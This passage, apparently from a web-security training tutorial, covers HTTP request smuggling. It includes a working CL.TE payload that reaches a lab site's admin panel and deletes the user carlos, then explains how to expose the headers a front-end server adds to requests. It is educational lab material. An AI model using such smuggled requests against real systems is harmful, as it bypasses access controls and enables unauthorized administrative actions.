 6. Observe that you can now access the admin panel.
7. Using the previous response as a reference, change the smuggled request URL to delete the user carlos:

```
POST / HTTP/1.1
Host: ac1d1fa61ef75fadc0cb61590085004e.web-security-academy.net
Content-length: 4
Transfer-Encoding: chunked

87
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

## Revealing front-end request rewriting

The front-end server might:

- terminate the TLS connection and add some headers describing the protocol and ciphers that were used;
- add an X-Forwarded-For header containing the user's IP address;
- determine the user's ID based on their session token and add a header identifying the user; or
- add some sensitive information that is of interest for other attacks.

In some situations, if your smuggled requests are missing some headers that are normally added by the front-end server, then the back-end server might not process the requests in the normal way, resulting in smuggled requests failing to have the intended effects.

There is often a simple way to reveal exactly how the front-end server is rewriting requests. To do this, you need to perform the following steps:

- Find a POST request that reflects the value of a request parameter into the application's response.
- Shuffle the parameters so that the reflected parameter appears last in the message body.
- Smuggle this request to the back-end server, followed directly by a normal request whose rewritten form you want to reveal.

Suppose an application has a login function that reflects the value of the email parameter:

```
POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

email=wiener@normal-user.net
```

This results in a response containing the following:
